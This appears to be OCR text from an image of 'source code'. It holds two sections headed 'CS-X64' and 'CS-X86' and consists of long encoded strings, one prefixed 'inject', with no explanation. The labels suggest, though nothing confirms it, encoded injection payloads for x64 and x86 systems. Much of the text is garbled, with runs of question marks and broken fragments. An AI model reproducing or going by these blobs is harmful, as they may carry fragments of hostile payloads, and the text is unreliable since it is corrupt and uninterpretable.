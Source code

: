 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

chans33|2,??@;6,????g;10??,??3;1?4???,c;1???8,e;2???2??,E;??2????6???,Z;?30,???F;34,?e;???3??8,%?;42,????W;?46??,%??;50???,???4;54??,u????;58,c???;62????,e;6????6,0????;?70???,1;7????4,???8;7????8????,A??;82,D?;86??,w;9????0???,S;9???4,q;??98???,6;1??02,k???;????106,K???;???1???10??,f;????114,????%;118????,x????;122???,?z;12????6,????x;????130,???Q;|?hAr?@C0h????g?6m????l39YY???cx????yCez???U2E???0LAZv??hI????Fx???Dn??eCL????M%VnB?W?rNL%N???B???q4yU2???uT9lc?1??0????5eg???Dv0???D?Ze?1VnD8???5w0A????wl???vDzU???Yw0?9zSn?x0?q?3lj6???zL????NkV?mAK???vgH???fhzm?%BVwx??PfBz9???ITx?x???AmQ=yesng



htrdhFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTucHcs=tyhjt
